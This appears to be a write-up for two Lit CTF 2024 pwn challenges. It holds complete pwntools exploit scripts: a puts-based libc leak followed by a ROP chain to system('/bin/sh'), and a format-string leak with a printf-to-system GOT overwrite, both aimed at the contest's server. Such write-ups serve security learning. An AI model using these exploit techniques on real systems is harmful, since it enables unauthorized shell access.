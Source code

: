 # Lit CTF 2024

## pwn-Function Pairing
### strategy-1
* puts(puts)->libc leak and return to main
* rop with libc rop gadget
```python
from pwn import *

e = ELF("vuln")
libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")

context.binary = e
#p = e.process()
p = remote("litctf.org",31774)

print(p.recv().decode())

ret = p64(0x000000000040101a)
pop_rdi_ret = p64(0x0000000000401293)
offest = 264

payload = b"A" * offest
payload += ret
payload += pop_rdi_ret
payload += p64(e.got['puts'])
payload += p64(e.plt['puts'])
payload += p64(e.sym['main'])

p.sendline(payload)
print(p.recv().decode())

p.sendline(b"0")
print(p.recvuntil(b"0\n").decode())
puts = u64(p.recvline().strip() + b'\x00\x00')
print(f"puts @ {hex(puts)}")

libc.address = puts - libc.sym["puts"]
rop = ROP(libc,base=libc.address)
rop.call(rop.ret)
rop.system(next(libc.search(b"/bin/sh")),0,0)
print(p.recv().decode())
p.sendline(b"A"*offest + rop.chain())
print(p.recv())
p.sendline(b"0")

p.interactive()
```

## pwn-Infinite Echo
### strategy-2
* format string vulnerability
* binary base leak
* libc leak
* got overwrite printf->system
* printf("/bin/sh") -> system("/bin/sh")
```python
from pwn import *

e = ELF("main")
libc = ELF("libc-2.31.so")
context.binary = e
#local
#libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")
#p = e.process()
p = remote("litctf.org", 31772)

buf = 6

payload1 = b"%3$lx" #read+18

print(p.recvline().decode())
p.sendline(payload1)
addr = int(p.recvline().decode().strip(),16)
print(f"read +18 @ {hex(addr)}")
base = addr - 18 - libc.sym['read']
libc.address = base

payload2 = b"%28$lx"
p.sendline(payload2)
addr = int(p.recvline().decode().strip(),16)
print(f"base +0x40 @ {hex(addr)}")
binbase = addr - 0x40
e.address = binbase

payload3 = fmtstr_payload(buf, {e.got['printf'] : libc.sym['system']})

p.sendline(payload3)

p.sendline(b"/bin/sh")
p.interactive()
```